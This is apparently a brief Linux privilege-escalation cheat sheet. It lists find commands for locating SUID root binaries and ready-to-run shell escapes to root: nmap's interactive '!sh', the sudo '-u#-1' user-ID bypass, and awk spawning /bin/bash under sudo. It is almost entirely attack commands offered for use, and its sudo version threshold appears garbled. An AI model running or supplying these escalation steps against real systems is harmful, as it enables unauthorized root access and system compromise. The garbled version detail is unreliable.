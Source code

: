 ﻿https://pentestlab.blog/2017/09/25/suid-executables/

- Nmap
- Vim
- find
- Bash
- More
- Less
- Nano
- cp


    find / -user root -perm -4000 -print 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -perm -u=s 2>/dev/null
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -user root -perm -4000 -exec ls -ldb {} \;

# nmap

For version 2.02 to 5.21

    nmap -V
    nmap --interactive
    !sh

# Sudo
Check version

    sudo --version

If sudo version < 1.28

    sudo -u#-1 /bin/bash

# awk

If awk has sudo permission

    sudo -l
    sudo awk 'BEGIN {system("/bin/bash")}'